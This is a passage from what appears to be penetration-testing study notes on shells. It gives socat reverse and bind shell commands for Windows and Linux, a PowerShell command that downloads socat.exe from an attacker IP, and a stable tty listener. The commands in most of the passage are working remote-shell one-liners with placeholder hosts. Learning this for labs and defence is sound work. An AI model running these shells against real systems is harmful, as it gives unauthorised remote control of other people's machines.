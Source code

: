 For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`.

It's useful to be able to change your terminal tty size. First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns.

Next, in your reverse/bind shell, type in: `stty rows <number>` and `stty cols <number>`.

### Socat[​](broken-reference) <a href="#socat" id="socat"></a>

Socat is like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box.

#### Reverse Shells[​](broken-reference) <a href="#reverse-shells-1" id="reverse-shells-1"></a>

This shell is unestable and equivalent to the netcat one, but will work on either Linux or Windows.

On Windows we would use this command to connect back:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

#### Bind Shells[​](broken-reference) <a href="#bind-shells-1" id="bind-shells-1"></a>

On a Linux target we would use the following command:

```
socat TCP-L:<PORT> EXEC:"bash -li"
```

On a Windows target we would use this command for our listener:

```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux.Here is the new listener syntax:

```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
